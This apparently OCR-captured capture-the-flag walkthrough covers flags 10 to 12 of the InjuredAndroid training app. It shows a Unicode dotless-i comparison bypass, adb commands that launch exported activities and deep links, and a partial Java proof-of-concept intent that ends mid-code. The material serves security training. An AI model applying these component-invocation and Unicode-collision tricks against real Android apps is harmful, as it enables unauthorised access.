 1. Research "Github dotless i". 

The method toUpperCase works in Kotlin as well as Java for the unicode collision. 

```kotlin
val value = dataSnapshot.value as String?
                        when {
                            post == value -> Toast.makeText(this@FlagTenUnicodeActivity, "No cheating. :]",
                                    Toast.LENGTH_SHORT).show()
                            post.toUpperCase(Locale.ROOT) == value!!.toUpperCase(Locale.ROOT) -> correctFlag()
                            else -> Toast.makeText(this@FlagTenUnicodeActivity, "Try again! :D",
                                    Toast.LENGTH_SHORT).show()
                        }

```

From the exercise code above we can see that `post.toUpperCase(Locale.ROOT) == value!!.toUpperCase(Locale.ROOT) -> correctFlag()` is converting the dotless ı to a normal i.

2. Authenticate using the `b3nac.injuredandroid.QXV0aA` activity by using an adb command to start the activity.

```bash
adb shell am start -n b3nac.injuredandroid/.QXV0aA

```

3. Submit email with dotless i after authenticating.

---

### Flag 11 - HIIMASTRING

1. First invoke the activity with a deep link so you can access the post form. 

`adb shell am start -W -a android.intent.action.VIEW -d "flag11://"`

2. Secondly find the binary in the apk and run strings on the golang binary or run the binary and the Golang binary will print the flag. 

3. Binary location is: `res/values/meŉu`

---

### Flag 12 - Flag complete after using a PoC apk

1. Complete the exploit by using a PoC app, an example from my Youtube video.

```java

package b3nac.injuredandroid.poc;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent next = new Intent();
        next.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagTwelveProtectedActivity");
        next.putExtra("totally_secure", "https://google.com");

```